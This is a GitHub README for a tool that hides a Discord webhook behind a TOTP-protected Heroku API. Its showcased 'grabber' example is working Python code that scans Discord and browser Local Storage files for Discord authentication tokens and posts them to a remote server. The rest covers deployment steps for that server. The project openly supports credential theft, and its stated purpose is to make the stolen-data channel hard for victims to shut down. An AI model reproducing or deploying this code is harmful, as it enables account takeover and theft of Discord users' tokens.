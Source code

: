 <p align="center">
<img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Webhook-Protector?style=flat-square" </a>
<img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Webhook-Protector?style=flat-square" </a>
<img src="https://img.shields.io/github/stars/Rdimo/Discord-Webhook-Protector?color=444444&label=Stars&style=flat-square" </a>
<img src="https://img.shields.io/github/forks/Rdimo/Discord-Webhook-Protector?color=444444&label=Forks&style=flat-square" </a>
</p>
</p>
<p align="center">
<a href="https://github.com/Rdimo/Discord-Webhook-Protector#setting-up-the-api">Setup the api</a> ⋮
<a href="https://cheataway.com">Discord</a>
</p>

#### Discord-Webhook-Protector was made by
Love ❌ code ✅

---

### 🔰・Features
```
> Easy to setup
> Webhook protected by totp so webhook can't be spammed or deleted even if they http debug!
> Accepting only post requests
> near to impossible to delete webhook (still possible to spam, but very hard)
```

### 🎈・Code example
Example of a grabber you can use the api for
```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-heroku-app-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    requests.post(api, headers={"Authorization": key}, json={"content": token})
```

### 📁・Setting up the api
1. Create an account on [Heroku.com](https://heroku.com)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. open api.js and put in your webhook at the top (line 5)
4. open cmd in the directory and type `npm i`
5. Now follow these steps carefully ⇣
```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku main
...
$ heroku ps:scale web=1
$ heroku open
```

### 📜・ Upcoming features
* File upload support (prob not in a while tho since im too lazy)
